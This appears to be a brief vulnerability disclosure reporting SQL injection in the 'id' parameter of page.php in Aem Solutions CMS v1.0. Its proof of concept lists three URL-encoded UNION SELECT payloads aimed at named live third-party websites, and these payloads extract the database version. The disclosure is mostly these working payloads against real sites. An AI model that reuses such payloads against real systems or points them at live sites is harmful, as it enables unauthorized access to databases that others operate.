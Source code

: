 # Aem Solutions - Sql Injection

#### vender:https://www.aemsolutions.com/

#### Software: Aem Solutions CMS v1.0

Tested On: Mac, Firefox

### Description

Sql Injection of param id in page.php of Aem Solutions CMS v1.0.

## Proof of Concept:

### Demo :

https://www.aaar.co.in/page.php?id=-3%27%20union%20select%201,2,3,version(),5--+

https://csalok.com/page.php?id=2%27%20union%20select%201,2,3,version(),5--+

https://www.pnaindia.in/page.php?id=6%27%20union%20select%201,2,3,version(),5--+